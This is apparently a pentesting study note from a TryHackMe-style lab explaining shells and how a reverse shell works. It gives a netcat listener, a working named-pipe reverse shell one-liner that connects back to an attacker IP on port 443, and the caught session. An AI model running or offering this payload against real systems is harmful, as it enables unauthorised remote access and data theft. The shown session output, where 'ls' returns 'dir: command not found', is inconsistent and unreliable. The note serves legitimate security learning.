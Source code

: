 
# Shells

A **shell** is software that lets you talk to an operating system (OS). It can be a graphical UI, but in cybersecurity, it’s usually a command-line interface (CLI)—a text-based way to run commands. The type of shell depends on the OS (e.g., Bash on Linux, PowerShell on Windows). For attackers or pentesters, a shell is a session on a compromised system, letting them execute commands remotely. Here’s what shells unlock:

- **Remote Control**: Run commands or software on a target from afar.
- **Privilege Escalation**: Start with limited access, then climb to admin/root.
- **Data Theft**: Explore, read, and steal sensitive files.
- **Persistence**: Plant backdoors or credentials to keep coming back.
- **Post-Exploitation**: Drop malware, hide accounts, or wipe evidence.
- **Pivoting**: Use the shell to hop to other systems on the network.

---

## Reverse Shells: Calling Home

A **reverse shell** connects *from* the target to the attacker’s machine—great for dodging firewalls since it looks like outbound traffic. Here’s how it works:

### Step 1: Set Up a Listener
Use **Netcat (nc)** to wait for the target to call back:
```
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
```
- `-l`: Listen mode.
- `-v`: Verbose (shows connection details).
- `-n`: No DNS lookups—just IP addresses.
- `-p 443`: Listen on port 443 (HTTPS port, blends with legit traffic).

Attackers pick ports like 80, 443, or 53 to hide in plain sight.

### Step 2: Launch a Reverse Shell Payload
On the target, run a payload to connect back. Here’s a classic **pipe reverse shell**:
```
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.4.99.209 443 >/tmp/f
```
- **Breakdown**:
  - `rm -f /tmp/f`: Deletes any old pipe file at `/tmp/f`.
  - `mkfifo /tmp/f`: Creates a named pipe (FIFO) for two-way communication.
  - `cat /tmp/f`: Reads from the pipe.
  - `| sh -i 2>&1`: Pipes to an interactive shell (`sh -i`), merging errors (`2>&1`) with output.
  - `| nc 10.4.99.209 443`: Sends shell output to attacker’s IP (10.4.99.209) on port 443.
  - `>/tmp/f`: Loops output back into the pipe for interactivity.

### Step 3: Catch the Shell
Back on the attacker’s machine:
```
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
target@tryhackme:~$ whoami
target
target@tryhackme:~$ ls
dir: command not found  # Oops, it’s sh, not bash—use ‘cat’ or ‘echo’ instead!
```
You’ve got a shell! Run commands like you’re logged in.

---